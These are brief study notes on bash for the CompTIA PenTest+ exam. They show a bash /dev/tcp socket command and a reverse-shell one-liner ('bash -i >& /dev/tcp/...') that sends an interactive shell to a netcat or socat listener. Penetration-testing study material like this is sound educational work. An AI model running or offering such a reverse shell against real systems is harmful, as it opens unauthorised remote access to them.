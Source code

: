 These are short notes on bash for the Pentest Plus exam from comptia.


Binding with NetCat 'nc'

$ exec 5<>/dev/tcp/hostnameorIP/port


If you want to make a connection with bash you can. find the open port or open a port or your own by setting up a listener with socat netcat etc..


$ bash -i >& /dev/tcp/10.0.0.106/9999
